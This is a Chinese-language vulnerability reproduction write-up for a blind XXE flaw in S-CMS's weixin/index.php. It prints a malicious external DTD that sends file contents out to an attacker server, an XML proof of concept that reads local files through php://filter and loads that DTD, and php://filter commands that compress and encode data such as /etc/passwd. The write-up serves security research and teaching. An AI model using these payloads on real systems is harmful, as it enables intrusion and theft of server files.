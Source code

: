 # S-CMS xxe漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

漏洞分析

全局搜索simplexml，在weixin/index.php发现漏洞

![](images/15893383087501.jpg)


非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）


```bash
<!ENTITY % all 
    "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
>
%all;
```

发送POC


```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
    <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
%dtd;
%send;
]>
```

![](images/15893383311020.jpg)


然后在Apache日志中查看到结果：

![](images/15893383400135.jpg)


在这里发现一个问题，查看其它php文件的内容会发生Detected an entity reference loop错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）


```bash
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");
```

**参考链接**

http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/